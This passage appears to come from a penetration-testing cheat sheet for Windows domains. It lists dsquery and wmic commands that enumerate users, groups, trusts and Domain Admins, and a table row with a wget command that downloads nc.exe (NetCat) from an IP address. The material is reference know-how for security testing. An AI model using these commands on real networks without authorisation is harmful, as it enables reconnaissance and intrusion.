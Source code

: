 | Web Client to Download Files (eg NetCat) | `wget`                | `wget "http://10.10.10.10/nc.exe" -outfile   "c:\nc.exe"`                                                                                            |
| Get Firewall Rules                       | `Get-NetFirewallRule` | ``Get-NetFirewallRule -all &#124; Out-GridView` or   `Get-NetFirewallRule -all &#124; Export-csv <file_path.csv>``                                   |
















A simple batch script with these commands is here: [\tools\WinDomainEnum.bat](https://github.com/EvolvingSysadmin/Penetration-Testing/blob/master/tools/WinDomainEnum.bat)





Display DC Address, Domain Name, Roles

```CMD
wmic ntdomain
```

Dsquery User List

```CMD
dsquery user domainroot
```

User Logon Name from Email

```CMD
dsquery * domainroot -filter "(&(objectCategory=Person)(objectClass=User)(mail=e-mailaddress))" -attr name
```

Display Trusted Domain

```CMD
dsquery * -filter "(objectclass=TrustedDomain)" -attr trustpartner,flatname,trustdirection
```

Domain Admins of from Remote Trused Domain

```CMD
dsquery * -filter "(cn=Domain Admins)" -attr member -d trustedDomain
```

Display All Domain Users

```CMD
wmic /NAMESPACE:\\root\directory\ldap PATH ds_user GET ds_samaccountname
```

Display All Domain Groups

```CMD
wmic /NAMESPACE:\\root\directory\ldap PATH ds_group GET ds_samaccountname
```
